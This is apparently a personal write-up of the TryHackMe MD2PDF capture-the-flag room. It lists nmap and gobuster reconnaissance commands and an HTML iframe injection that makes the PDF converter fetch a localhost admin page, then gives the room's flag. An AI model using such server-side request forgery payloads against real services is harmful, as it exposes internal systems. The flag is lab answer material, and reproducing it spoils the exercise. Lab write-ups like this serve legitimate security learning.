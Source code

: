 ## **Room:** [MD2PDF](https://tryhackme.com/room/md2pdf)
---
For today's room I decided to do a simple 5-minute room and focus more on learning by watching the lectures from TryHackMe.
> **Prompt**
>
> > Hello Hacker!
> > TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF.
> > This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?

Host: 10.201.79.96

## Walkthrough
First, I checked the open ports:
```bash
nmap -sS -sV 10.201.79.96
```
Result: 
```text
22
80
5000
```
Then I have looked up its directory:
```bash
gobuster dir -u 10.201.79.96 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Result: /admin, /convert
Both required permissions I didn't have.
Then I investigated the converter further and discovered that it executes HTML input. So I submitted the following to the admin page:
```nginx
<iframe src="http://localhost:5000/admin><iframe>
```
Eventually, I have found the flag of the day: flag{1f4a2b6ffeaf4707c43885d704eaee4b}